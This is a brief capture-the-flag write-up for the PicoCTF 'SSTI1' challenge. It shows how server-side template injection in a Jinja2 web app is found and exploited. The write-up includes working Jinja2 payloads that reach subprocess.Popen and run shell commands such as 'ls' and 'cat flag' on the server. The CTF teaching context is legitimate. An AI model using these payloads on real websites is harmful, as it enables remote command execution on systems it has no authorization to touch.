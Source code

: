 # SSTI1 (PicoCTF)

`https://play.picoctf.org/practice/challenge/492`

```
Author: Venax
Description
I made a cool website where you can announce whatever you want! Try it out! I heard templating is a cool and modular way to build web apps! Check out my website here!
```

https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/jinja2-ssti.html

![alt text](assets/ssti11.png)

![alt text](assets/ssti12.png)

Template engine of the webserver is jinja2 > flask/django.

![alt text](assets/ssti13.png)

`{{ ().__class__.__base__.__subclasses__() }}`

![alt text](assets/ssti14.png)

Turns out we have access to `subprocess.Popen`. 

`{{ ().__class__.__base__.__subclasses__()[356] }}`

After further enumeration, we found the index.

`{{ ().__class__.__base__.__subclasses__()[356]('ls',shell=True,stdout=-1).communicate()[0].strip()}}`

![alt text](assets/ssti16.png)

Final payload:

`{{ ().__class__.__base__.__subclasses__()[356]('cat flag',shell=True,stdout=-1).communicate()[0].strip()}}`

![alt text](assets/ssti17.png)
